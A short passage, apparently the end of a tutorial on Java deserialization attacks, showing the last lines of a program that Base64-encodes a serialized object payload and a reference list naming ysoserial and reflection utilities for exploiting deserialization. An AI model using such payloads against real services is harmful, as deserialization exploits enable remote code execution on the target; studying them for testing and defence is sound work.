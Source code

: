 ```java
        oos.close();

        String base64Queue = Base64.getEncoder().encodeToString(baos.toByteArray());
        System.out.println(base64Queue);
    }
}
```

# Tools & References:
- ysoserial: A popular tool used to generate Java deserialization payloads.
- Reflection Utilities: For exploiting private fields and methods during deserialization.